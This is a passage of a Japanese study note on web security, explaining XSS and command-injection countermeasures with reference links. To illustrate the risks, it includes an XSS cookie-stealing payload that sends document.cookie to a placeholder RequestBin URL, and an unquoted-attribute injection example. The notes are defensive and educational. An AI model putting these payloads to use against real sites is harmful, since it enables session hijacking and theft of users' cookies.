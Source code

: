 
    - 属性値を引用符で囲う
      ```html
      属性値を引用符で囲わない場合
      <input type="button" value=$data>
      ↓
      <input type="button" value=1 onclick=悪意のあるスクリプト>

      ---

      属性値を引用符で囲う場合
      <input type="button" value="$data">
      ↓
      <input type="button" value="1 onclick=悪意のあるスクリプト">
      ```
      [XSS への対処法 | とほほのWWW入門](http://www.tohoho-web.com/ex/xss.html)


    - CookieにHttpOnly属性をつける (JS から Cookie情報にアクセスできないようにする)
      
      もし`<script>`タグがインジェクトされた場合、RequestBinのようなHTTPリクエストを記録するWebサービスを用いて簡単にcookieを保存されてしまう
      ```html
      <script>window.location='https://requestbinのurl/?'.concat(document.cookie)</script>
      ```
      [【ゆっくり解説】ハッキングの基本 XSSとセッションハイジャック【セキュリティ】 | Youtube](https://www.youtube.com/watch?v=IGWKIRamjs0)
  - メモ
    - DOMベースXSS が少し理解できていない、、
  - 参考文献
    - [Cross-site scripting (クロスサイトスクリプティング) | MDN Web Docs](https://developer.mozilla.org/ja/docs/Glossary/Cross-site_scripting)
    - [クロスサイトスクリプティング | Wikipedia](https://ja.wikipedia.org/wiki/%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0)
      - 背景や目的まで記載されていてわかりやすかった

- **コマンドインジェクション**
  - 脆弱性の仕組み
    ```
    Webアプリケーションプログラムがシェルコマンド文字列を組み立てて実行している箇所がある場合、そこに外部からデータに紛れさせたコマンド文字列を送り込むことで、コンピュータを不正に操ることができる
    ```
    [コマンド注入攻撃対策 | IPA](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/501.html)
  - 発生しうる被害
    - host コンピューターのファイル情報が流出する
    - 悪意のあるスクリプトをダウンロードし実行させられる
  - 対処法
    - うっかりシェルを動かさない
      ```
      シェルを起動してコマンドを解釈させることになるAPIがあることを認識し、できればそれらのAPIを使わないようにする。

      Python ならば
      os.system(), os.popen()

      Ruby ならば
      exec(), system()
      ```
    - 別プログラムの起動を避ける
    - 別プログラムを起動せざるを得ないとき
      - シェルが用いられないAPIを選ぶ
        ```
        JavaではRuntimeクラスのexecメソッドがそれにあたる。
        ```
      - 特殊記号の排除
        ```
        別のプログラムに与えるパラメータに用いる文字種を英数字のみ等安全なものに限定し、検査してから渡す。
        ```
      - 環境変数のリセット
        ```Perl
        別のプログラムを呼び出す際の環境変数領域は呼び出し側プログラムによって初期化したものを与える。
